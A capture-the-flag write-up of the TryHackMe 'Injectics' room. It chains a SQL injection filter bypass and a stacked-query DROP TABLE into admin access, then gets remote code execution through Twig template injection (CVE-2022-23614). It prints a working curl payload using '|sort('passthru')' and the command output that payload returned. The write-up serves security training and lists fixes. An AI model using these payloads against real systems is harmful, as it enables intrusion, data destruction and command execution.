

# Injectics - SQLi to SSTI RCE

> **Platform:** TryHackMe · **Room:** [Injectics](https://tryhackme.com/room/injectics) · **Category:** Web (PHP) · **Difficulty:** Medium
> **Target:** "Injectics Leaderboard" on Apache 2.4.41, ports `22/ssh` and `80/http`
> **Result:** admin panel access via SQLi, then RCE through Twig SSTI (CVE-2022-23614)
> **Note:** publication-safe copy. Flag values and room-provided credentials are redacted; the method and formats are shown in full.

## The chain

SQLi on the user login (filter bypass with `||`) leads to the leaderboard editor, which runs stacked queries. `DROP TABLE users` makes the service regenerate the default credentials, which logs me in as superadmin (Flag 1). From there, SSTI in a Twig-rendered profile field gives RCE (CVE-2022-23614) and the second flag.



| # | Flag | Where |
|---|------|-------|
| 1 | Admin panel | `dashboard.php` after superadmin login |
| 2 | Flags folder | `./flags/<hash>.txt` via RCE |

## Enumeration

Gobuster and recon turn up:

- `login.php`: the user login, and the real entry point.
- `adminLogin007.php`: a hardened admin panel, and the trap. Spending time here is the classic mistake.
- `flags/`: 403, no directory listing.
- `conn.php` / `functions.php`: 200 but size 0 (they execute, they don't print).
- `phpmyadmin/`: exposed, asks for credentials.
- `mail.log`: the key hint. If the `users` table is dropped, it regenerates with default credentials.

The first half hour went into attacking `adminLogin007.php`, the hardened panel, when the real way in was the user login. The admin login was escaped, so classic SQLi was dead there. Reframing the target is what unlocked everything.

## Flag 1 - SQLi on login, then default-credential regeneration

The user login filters words like `or` server-side, but the filter is bypassed by doubling the keyword or using `||`. With `curl` I also skip the client-side JS filter. Once in as a dev, the leaderboard editor evaluates stacked queries, which lets me run:

```sql
DROP TABLE users;
```

Dropping the `users` table makes the service regenerate it with the default credentials documented in `mail.log`:

```
superadmin@injectics.thm : <redacted>
```

Those credentials log into `adminLogin007.php`, and the flag shows up on `dashboard.php`.

**Flag 1:** `THM{REDACTED}`
**Root cause:** SQLi plus stacked queries plus "regenerate with defaults" logic.
**Fix:** parameterized queries, disable multi-statements, don't seed default credentials.

## Flag 2 - SSTI to RCE (Twig, CVE-2022-23614)

The profile's **First Name** field (`fname`) is rendered with Twig without sanitization, so it is a server-side template injection. I abuse the `sort` filter, which accepts a comparison function: I pass `passthru` as the "comparator" and the command as the first element, so Twig runs `passthru('...')` and prints the output.

```bash
T=http://TARGET
curl -s -b cja "$T/update_profile.php" \
  --data-urlencode "email=superadmin@injectics.thm" \
  --data-urlencode "fname={{['ls -la ./flags; cat ./flags/*.txt','']|sort('passthru')}}" \
  --data-urlencode "lname=x" > post_resp.html
# the command output is rendered in the dashboard greeting
curl -s -b cja "$T/dashboard.php" | grep -aiE "THM|flags|\.txt|[a-f0-9]{32}"
```

Output:

```
total 12
-rw-rw-r-- 1 ubuntu ubuntu 38 Jul 18 2024 <hash>.txt
THM{REDACTED}
```

**Flag 2:** `THM{REDACTED}`
**Root cause:** SSTI from rendering user input as a Twig template; `system` disabled but `passthru` not.
**Fix:** never render user input as a template; use autoescape and the Twig sandbox; update Twig (CVE-2022-23614).

## What I learned

- Not every "obvious" login is the way in. The hardened panel (`adminLogin007.php`) was the trap; the entry point was the user login.
- Keyword blacklists (`or`, etc.) are bypassed by doubling (`oorr`) or with equivalents (`||`).
- An editor that accepts stacked queries allows `DROP TABLE`, and "regenerate with defaults" logic turns that into admin access.
- SSTI in Twig gives RCE through `|sort('passthru')` when `system` is blocked.

## References

- CVE-2022-23614 (Twig sandbox bypass)
- OWASP: SQL Injection, Server-Side Template Injection
